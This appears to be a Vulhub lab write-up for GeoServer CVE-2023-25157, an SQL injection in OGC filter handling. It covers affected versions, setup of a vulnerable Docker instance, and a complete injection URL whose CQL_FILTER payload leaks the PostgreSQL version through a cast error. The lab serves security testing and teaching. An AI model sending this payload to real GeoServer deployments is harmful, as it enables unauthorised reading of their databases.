

GeoServer OGC Filter SQL Injection (CVE-2023-25157)¶
GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.
In the version prior to 2.22.1 and 2.21.4, there is a SQL injection issue that was found in the filter and function expressions defined by the Open Geospatial Consortium (OGC) standards.
References:
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf
Vulnerable environment¶
Execute following command to start a GeoServer instance 2.22.1:
docker compose up -d
After the server is started, you can browse the default page of GeoServer at http://your-ip:8080/geoserver.
Exploit¶
First of all, you have to find a existing workspace that contains PostGIS datastore before you exploit the vulnerability. Vulhub's GeoServer instance already have a PostGIS datastore:
- Workspace name:
vulhub - Data store name:
pg - Feature type (table) name:
example - One of attribute from feature type:
name
Exploit the server by this simple URL:
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true

As you can see, the version of PostgreSQL has been retrieved from GeoServer by SQL injection.